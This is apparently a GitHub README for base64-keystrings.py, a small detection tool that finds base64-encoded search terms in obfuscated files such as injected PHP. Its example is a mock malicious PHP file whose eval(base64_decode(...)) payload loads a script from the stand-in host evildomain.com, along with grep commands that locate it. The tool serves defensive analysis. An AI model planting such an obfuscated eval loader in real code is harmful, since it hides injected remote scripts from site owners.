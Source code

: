 # base64-keystrings.py
## Find key search strings to locate base64-encoded versions of ASCII strings.

*For a detailed breakdown of what this tool is built to accomplish, please see the article on my [blog](https://s7n.co/b64strings)*

When working with obfuscated files (esp. PHP), it's common to find large blocks of base64-encoded code. It's not always possible to programmatically identify, decode, and subsequently test internal base64 blocks when looking for a particular string. This utility can be used to generate the three possible key strings of your intended search pattern (For an explanation of why there are always three strings, where they come from, etc, see my [article](https://s7n.co/b64strings)). Depending on the character count preceding the position of your search term in a file, one of the generated key strings will be present in the base64 block. 

### Usage

```
$ base64-keystrings.py "This is an input string!"
VGhpcyBpcyBhbiBpbnB1dCBzdHJpbmch
aXMgaXMgYW4gaW5wdXQgc3RyaW5n
aGlzIGlzIGFuIGlucHV0IHN0cmlu

$ base64-keystrings.py --file file.txt
VGhpcyBpcyBhIHRleHQgZmls
aXMgaXMgYSB0ZXh0IGZp
aGlzIGlzIGEgdGV4dCBmaWxl

$ cat file.txt | base64-keystrings.py --stdin
VGhpcyBmaWxlIHdhcyBwaXBlZCB0byBzdGRp
aXMgZmlsZSB3YXMgcGlwZWQgdG8gc3RkaW4h
aGlzIGZpbGUgd2FzIHBpcGVkIHRvIHN0ZGlu
```

### Examples

Test to see if a call to "evildomain.com/malware.js" is present in the following obfuscated file:

```php
<?php
/* 
 * Totally Legit PHP File
 * Version 1.1
 * 
 * Definitely necessary for your website to run. Don't touch it.
 */

 // This file is encoded for copyright protection.
 // Don't decode it or I'll sue you.
 eval(base64_decode(Ly8gSGFoYSB0aGV5J2xsIG5ldmVyIGZpbmQgbWUhCmhhY2tpbmdNYWluZnJhbWUoKTsKaW5qZWN0aW5nQ29kZSgpOwpicm93c2VyVGFrZW92ZXIoJ2h0dHA6Ly9ldmlsZG9tYWluLmNvbS9tYWx3YXJlLmpzJyk7));
```

```
$ base64-keystrings.py "evildomain.com/malware.js"
ZXZpbGRvbWFpbi5jb20vbWFsd2FyZS5q
aWxkb21haW4uY29tL21hbHdhcmUu
dmlsZG9tYWluLmNvbS9tYWx3YXJlLmpz

$ grep "ZXZpbGRvbWFpbi5jb20vbWFsd2FyZS5q" badfile.txt

$ grep "aWxkb21haW4uY29tL21hbHdhcmUu" badfile.txt

$ grep "dmlsZG9tYWluLmNvbS9tYWx3YXJlLmpz" badfile.txt
eval(base64_decode(Ly8gSGFoYSB0aGV5J2xsIG5ldmVyIGZpbmQgbWUhCmhhY2tpbmdNYWluZnJhbWUoKTsKaW5qZWN0aW5nQ29kZSgpOwpicm93c2VyVGFrZW92ZXIoJ2h0dHA6Ly9ldmlsZG9tYWluLmNvbS9tYWx3YXJlLmpzJyk7));
```

As we can see, the string "dmlsZG9tYWluLmNvbS9tYWx3YXJlLmpz" was identified in the file! Applied against a large PHP framework where a code injection could be in a huge assortment of locations, recursive searches could be performed with the generated key strings to assist in locating obfuscated code. 

### Upcoming Features
- [] Add file search features to the script so manual grepping is no longer required